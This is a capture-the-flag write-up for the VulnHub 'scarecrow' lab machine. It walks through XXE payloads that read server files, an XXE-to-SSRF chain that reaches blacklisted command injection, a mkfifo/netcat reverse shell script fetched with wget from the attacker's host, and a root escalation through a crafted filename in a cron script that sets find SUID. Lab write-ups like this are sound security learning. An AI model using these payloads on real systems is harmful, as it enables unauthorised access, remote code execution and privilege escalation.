<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/scarecrow-1,354/">scarecrow</a>
  <br>
</h1>

<h4 align="center"> Author:
  <a href="https://twitter.com/@sk4pwn"> Daniele,</a>
  <a href="https://twitter.com/@bytevsbyt3"> Fabio,</a>
  <a href="https://twitter.com/@p4w16 "> p4w</a>
</h4>

## Nmap



Only two ports are open. Let's start with HTTP service.

***

## HTTP

When we visit the website running on port 80 we are greeted with `Apache2 Default page.`



I ran gobuster on the website and found a directory named `scarecrow`



That page had a directory listing of two PHP files.



Now if we visit the personal secret page we'll get the error saying only admin can access this etc etc.

But if we open the `login.php` we are given an input field but the problem with this was no matter what we end we get `user '' not found`.





I captured the requests in burp suite and tried lot of tricks to figure out a way like using `X-Forwarded-For` or using `SSRF` to access personal secret admin page. But then [@theart42](https://twitter.com/theart42) figured out that it was XXE.

I tried the usual XXE payload from [PayloadsAllTheThing/XXE Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection) but that didn't worked then but if we URL encoded certain character and it will work.

```
<%3fxml+version%3d"1.0"%3f><!DOCTYPE+root+[<!ENTITY+test+SYSTEM+'file%3a///etc/passwd'>]><root><user>%26test%3b</user></root>
```



I tried changing the path to `var/www/html/scarecrow/personal_secret_admin_page.php` but that didn't worked. Again [@theart42]()
said to use `php://filter/convert.base64-encode/resource=`.

```
auth=<%3fxml+version%3d"1.0"%3f><!DOCTYPE+root+[<!ENTITY+test+SYSTEM+'php://filter/convert.base64-encode/resource=/var/www/html/scarecrow/personal_secret_admin_page.php'>]><root><user>%26test%3b</user></root>
```



After decoding the base64 we'll get

```php
<?php
$ip = $_SERVER['REMOTE_ADDR'];
if($ip === "127.0.0.1"){
  echo "Hello Admin!";
}
else{
  die("only admin can access here! and you are not: 127.0.0.1");
}
//because blacklists are awesome!!!
$blacklist = array("$","&","|","(",")","`","-","{","}",";",">","<");
if(isset($_GET["ip"])) {
  $ip = $_GET["ip"];
  foreach ($blacklist as $key) {
    if(strpos($ip, $key) !== false){
      die("bad character in ip!!!");
    }
  }
  system("ping -c 4 ". $ip);
}
?>

<html>
<body>
<h2>Admin panel page</h2>
  <form id="myForm" >
    <input type="text" name="ip">
    <input type="submit">
  </form>
</html>
```

Same way we can read the source of `login.php`

```php
<?php
if(isset($_POST["auth"])) {
    libxml_disable_entity_loader (false);
    $xml = $_POST["auth"];
    $dom = new DOMDocument();
    $dom->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $user = $creds->user;
    $pass = $creds->pass;
    if($pass === "super_secure_password" && $user === "admin"){
      echo "<html><body><div>You are logged in as user <b>admin</b><br>";
      echo "You can go to the admin page now: <br><a href='http://localhost/personal_secret_admin_page.php'>http://localhost/personal_secret_admin_page.php</a></body></html>";
    }
    else{
      echo "User '" . $user ."' not found!";
    }
}
else {
  echo "<html><body><div><form method='POST'><input type='text' name='auth'><br><input type='submit'></form></div></body></html>";
}
?>
```

So we have the source of that secret page. We can see that it's a classic command injection because it is taking the `$ip` to the `system()` but the problem is that `blacklist` because it contains almost every command line character.

This can be done by doing `%0als` in the end. This basically add a `\n` to the end of the command and then runs our command. The main problem here was a proper way to do it while bypassing that IP check also.

It took us few hours but in the end [@4ndr34z]() figure it out.

```

auth=<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE creds [ <!ELEMENT creds ANY ><!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=http://127.0.0.1/scarecrow/personal_secret_admin_page.php?ip=192.168.56.118%250Als' >]><creds><user>%26xxe;</user><pass>pass</pass></creds>
```



__NOTE__: The IP is your machine's IP. Also every payload has to be double URL encoded.

Now we have the RCE, we can execute our commands. I tried the `nc -e /bin/sh IP PORT` to get reverse shell but that didn't work.

Now here are two ways to do it:

* Generate shell via msfvenom and then wget it and listen via nc or msfconsole. - suggested by [@theart42]()
* Make a shell script having reverse shell code, wget it on the server, chmod it and then execute. - suggested by [@4ndr34z]()

I did the 2nd way.

I made a file name `shell` with the following content

```bash
mkfifo /tmp/grpoa; nc 192.168.56.1 1337 0</tmp/grpoa | /bin/sh >/tmp/grpoa 2>&1; rm /tmp/grpoa
```

Now do the following:


* `wget http://192.168.56.1:8000/shell`


```
auth=<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE creds [ <!ELEMENT creds ANY ><!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=http://127.0.0.1/scarecrow/personal_secret_admin_page.php?ip=192.168.56.118%250Awget%2520http%253A%252F%252F192.158.56.1%253A8000%252Fshell' >]><creds><user>%26xxe;</user><pass>pass</pass></creds>

```

* `chmod +x shell`

```
auth=<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE creds [ <!ELEMENT creds ANY ><!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=http://127.0.0.1/scarecrow/personal_secret_admin_page.php?ip=192.168.56.118%250Achmod%2520%252Bx%2520shell' >]><creds><user>%26xxe;</user><pass>pass</pass></creds>
```

* `./shell` while `nc` listener is running

```
auth=<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE creds [ <!ELEMENT creds ANY ><!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=http://127.0.0.1/scarecrow/personal_secret_admin_page.php?ip=192.168.56.118%250A.%252Fshell' >]><creds><user>%26xxe;</user><pass>pass</pass></creds>
```

__NOTE__: All the data is __DOUBLE__ Url encoded. Also we have to do this on `/login.php` and not on `/scarecrow/personal_secret_admin_page.php`. I wasted few hours trying payload there. 🤦‍♂️

If everything is done properly we'll have a shell



***

## Horizontal Privilege Escalation

Since I was in the system I ran the enumeration script but found nothing with it. I tried to run `sudo -l` but we didn't had any TTY shell.

So I ran `pspy32` and with that I found a process in the background, a cronjob



***

So this cron is for vertical privilege escalation. The author messed up the machine. So basically there is a directory named `/var/www/paw-sk4-experiments` which was supposed to be accessed by us to find an image but due some mess up we couldn't `cd` to that dir.



So author sent us the image. If you are using the fied version of machine you must be able to access that dir.

***

This is the image that we get from that directory:


I ran strings on that image, it had some `password.txt` in it. I ran `binwalk` to extract it.



Actually it was zip file which was password protected so I used john to crack the hash.

To extract the hash run `zip2john file.zip > hash.txt` and then run john the ripper.



From this we got a file named `password.txt` which had the password `#beautifull_root1999!`.

I used this password with use `paw-sk4` to login via SSH. And in the home dir I found the `flag.txt`



***

## Veritcal Privilege escalation

Now we are user on this machine and along with the `flag.txt` we had a file named `backup.py` so assuming this is the file similar to what is present in `root/` which we saw in the cron job.


We can see the content of `backup.py`



So here we can see the issue with `os.system()`, the second one.

```python
        os.system('cp "' + path + file + '" ' + path_bak)
```

In this the variable `file` is directorly used in the `os.system` so if we can name a file with certain command in `/var/www/paw-sk4-experiments` and leave it to be runned by cronjob it can give us access to root shell.

[@4ndr34z](https://twitter.com/4nqr34z) and [@thart42](https://twitter.com/theart42) figured out this part. They changed the permission of the `find` command to `4755` and then used `find` to get a root shell.

* `touch ./'"";$(chmod 4755 $(which find))'`
    - This will change the permission for `find` to `4755`
* Wait for sometime for cron to run. Then,
* `find . -exec /bin/sh -p \; -quit`

If this works then we'll have the root-shell



Now we can cat the flag.




***

This was an awesome machine and I learned a lot from this one. I learned a great deal of XXE and this Privelge escalation method was really awesome and very different from most of the machines I've done.

Thanks to   [Daniele](https://twitter.com/@sk4pwn), [fabio](https://twitter.com/@bytevsbyt3), [p4w](https://twitter.com/@p4w16) for making this awesome machine.

Thanks to [@theart42](https://twitter.com/theart42), [@DCAU7](https://twitter.com/DCAU7), [@4nqr34z](https://twitter.com/4nqr34z), [@D4mianWayne](https://twitter.com/D4mianWayne) for this awesome team work.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
